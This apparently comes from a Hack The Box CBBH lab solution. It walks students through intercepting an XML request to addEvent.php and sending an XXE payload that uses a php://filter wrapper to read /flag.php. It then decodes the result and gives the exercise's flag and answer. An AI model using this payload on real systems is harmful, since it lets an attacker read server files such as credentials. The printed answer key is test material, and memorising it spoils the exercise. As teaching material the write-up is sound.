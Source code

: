 After successfully signing in as `a.corrales`, students will notice that there is a new feature of "adding events", thus, they need to click on "ADD EVENT":

![[HTB Solutions/CBBH/z. images/a0a831396c2375d591d5e9d545ccf887_MD5.jpg]]

With the Network tab of the Web Developer Tools open, students need to feed the fields any dummy data and inspect the POST request sent to `addEvent.php`, discovering that the request payload is `XML` data:

![[HTB Solutions/CBBH/z. images/9981e27bcefa9dcbec2d96a49c6dae38_MD5.jpg]]

Students need to instead send a malicious XXE payload that will read the flag file "/flag.php" via the the PHP filter `convert.base64-encode`:

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.php"> ]>
<root>
    <name>&xxe;</name>
    <details>test</details>
    <date>2021-09-22</date>
</root>
```

![[HTB Solutions/CBBH/z. images/1be676a16d82c335401ee317897f1c67_MD5.jpg]]

![[HTB Solutions/CBBH/z. images/f03697b0392349d41e95db0c0136e60a_MD5.jpg]]

After sending the request and checking its response, students will attain the base64-encoded string `PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K`:

![[HTB Solutions/CBBH/z. images/804983bd463ac64d8787599ca60c6249_MD5.jpg]]

At last, students need to decode it to find the flag `HTB{m4573r_w3b_4774ck3r}`:

```shell
echo 'PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K' | base64 -d
```
```
┌──(kali㉿kali)-[~]
└─$ echo 'PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K' | base64 -d

<?php $flag = "HTB{m4573r_w3b_4774ck3r}"; ?>
```

Answer: `HTB{m4573r_w3b_4774ck3r}`